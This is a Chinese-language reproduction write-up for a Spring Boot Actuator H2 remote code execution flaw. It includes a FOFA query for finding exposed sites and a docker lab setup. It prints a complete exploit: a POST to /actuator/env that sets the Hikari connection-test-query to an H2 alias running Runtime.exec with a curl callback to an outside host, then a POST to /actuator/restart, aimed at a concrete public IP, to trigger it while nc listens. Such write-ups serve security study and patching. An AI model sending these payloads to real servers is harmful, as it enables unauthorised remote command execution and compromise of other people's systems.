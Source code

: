 ## Spring Boot Actuator H2 RCE

## 漏洞描述

Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。而由于对这些端点的错误配置，就有可能导致一些系统信息泄露、XXE、甚至是 RCE 等安全问题。Actuator 是 Spring Boot 提供的服务监控和管理中间件。当 Spring Boot 应用程序运行时，它会自动将多个端点注册到路由进程中。而由于对这些端点的错误配置，就有可能导致一些系统信息泄露、XXE、甚至是 RCE 等安全问题。

## 漏洞影响

> Spring Boot < 1.5  // 默认未授权访问所有端点
>
> Spring Boot >= 1.5  // 默认只允许访问/health和/info端点，但是此安全性通常被应用程序开发人员禁用

## FOFA

> body="Whitelabel Error Page"

## 源码分析

复现前先说一下如何判断目标站点是否使用Spring Boot框架。Spring Boot框架通常有两个特征点：

网站ico文件是一片绿叶并且特有的报错信息为“Whitelabel Error Page”

![1](resource/Spring-Boot-Actuator-H2-RCE/1.png)

##漏洞环境搭建

```
git clone https://github.com/spaceraccoon/spring-boot-actuator-h2-rce.git
```

使用docker启动环境

先cd进入spring-boot-actuator-h2-rce目录然后执行以下命令

```
docker build -t spaceraccoon/spring-boot-rce-lab
docker run -p 8080:8080 -t spaceraccoon/spring-boot-rce-lab
```

![2](resource/Spring-Boot-Actuator-H2-RCE/2.png)

访问:http://x.x.x.x:port/actuator，如下存在端点信息

![3](resource/Spring-Boot-Actuator-H2-RCE/3.png)

存在端点信息，接着发送如下POST包配置spring.datasource.hikari.connection-test-query的值。

```
POST /actuator/env HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json
Content-Length: 389

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('curl x.x.x.x:port');"}
```

![4](resource/Spring-Boot-Actuator-H2-RCE/4.png)

注：CALL EXEC(‘要执行的命令’)

查看/actuator/env信息，配置成功

![6](resource/Spring-Boot-Actuator-H2-RCE/6.png)

NC监听，向端点 /actuator/restart 发送POST请求, 重启应用。

```
POST /actuator/restart HTTP/1.1
Host: 39.105.93.185:8080
Content-Type: application/json
Content-Length: 356

{}
```

![7](resource/Spring-Boot-Actuator-H2-RCE/7.png)

![8](resource/Spring-Boot-Actuator-H2-RCE/8.png)

访问 http://x.x.x.x:port/actuator/restart如下即启动成功

![9](resource/Spring-Boot-Actuator-H2-RCE/9.png)

![10](resource/Spring-Boot-Actuator-H2-RCE/10.png)

NC成功返回。